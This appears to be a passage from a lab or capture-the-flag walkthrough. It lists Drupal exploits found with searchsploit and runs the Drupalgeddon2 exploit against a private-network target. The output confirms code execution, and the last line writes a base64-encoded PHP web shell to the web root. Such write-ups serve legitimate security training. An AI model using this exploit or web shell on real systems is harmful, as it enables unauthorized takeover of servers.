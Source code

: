 ```
Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting                                                                                                              | exploits/php/webapps/25493.txt
Drupal Module CODER 2.5 - Remote Command Execution (Metasploit)                                                                                                                                     | exploits/php/webapps/40149.rb
Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                                                                                                                       | exploits/php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                                                                                                                             | exploits/php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x-1.5 - 'upload.php' Arbitrary File Upload                                                                                                                      | exploits/php/webapps/37453.php
Drupal Module Embedded Media Field/Media 6.x : Video Flotsam/Media: Audio Flotsam - Multiple Vulnerabilities                                                                                        | exploits/php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                                                                                                                                   | exploits/php/remote/40130.rb
Drupal Module Sections - Cross-Site Scripting                                                                                                                                                       | exploits/php/webapps/10485.txt
Drupal Module Sections 5.x-1.2/6.x-1.2 - HTML Injection                                                                                                                                             | exploits/php/webapps/33410.txt
Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                                                                                                                                   | exploits/php/webapps/44501.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
user@kali:~$
```

One raw (exploit) looks interesting, and it is the infamous Drupalgeddon2 ;)
Let's give it a shot.

```
user@kali:~$ ruby /usr/share/exploitdb/exploits/php/webapps/44449.rb http://192.168.1.85:1898
ruby: warning: shebang line ending with \r may cause problems
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://192.168.1.85:1898/
--------------------------------------------------------------------------------
[+] Found  : http://192.168.1.85:1898/CHANGELOG.txt (200)
[+] Drupal!: 7.54
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo UBOQZSMV
[+] Result : UBOQZSMV
[{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"IoYX9sQTS_U7pTnp-E9YIbpEmYR7FF0wJSJ7IL_9edY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"IoYX9sQTS_U7pTnp-E9YIbpEmYR7FF0wJSJ7IL_9edY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
```